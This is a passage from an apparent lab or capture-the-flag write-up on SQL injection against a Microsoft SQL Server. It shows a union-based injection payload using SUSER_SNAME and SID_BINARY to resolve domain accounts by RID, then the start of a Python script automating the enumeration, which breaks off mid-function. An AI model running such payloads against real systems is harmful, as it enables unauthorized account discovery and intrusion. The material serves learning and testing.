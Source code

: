 <figure><img src="../../../.gitbook/assets/image (27) (4).png" alt=""><figcaption></figcaption></figure>

Now, we just need a way to automate this method. I took the two functions used to convert the hex to a valid SID from the user earlier.

```
$ python3 sql_enum.py
S-1-5-21-3167813660-1240564177-918740779-
```

Then, we can fit this SID into a payload with a test number of 1000.

{% code overflow="wrap" %}
```sql
a' union select 1,1,1,1,(SUSER_SNAME(SID_BINARY('S-1-5-21-3167813660-1240564177-918740779-1000')))--
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (71) (5).png" alt=""><figcaption></figcaption></figure>

This is the final script I used to automate this method:

```python
import requests
import json
import sys
import struct
import time

def prepare_sid(sid):
    hex_string = bytes.fromhex(sid[2:])
    mod_sid = sid_to_str(hex_string)
    domain_sid_data = mod_sid.split('-')[:7]
    domain_sid = '-'.join(domain_sid_data) + "-"

    print(domain_sid+"\n")
    return domain_sid

#Build out the SID string
def sid_to_str(sid):
    if sys.version_info.major < 3:
        revision = ord(sid[0])
    else:
        revision = sid[0]

    if sys.version_info.major < 3:
        number_of_sub_ids = ord(sid[1])
    else:
```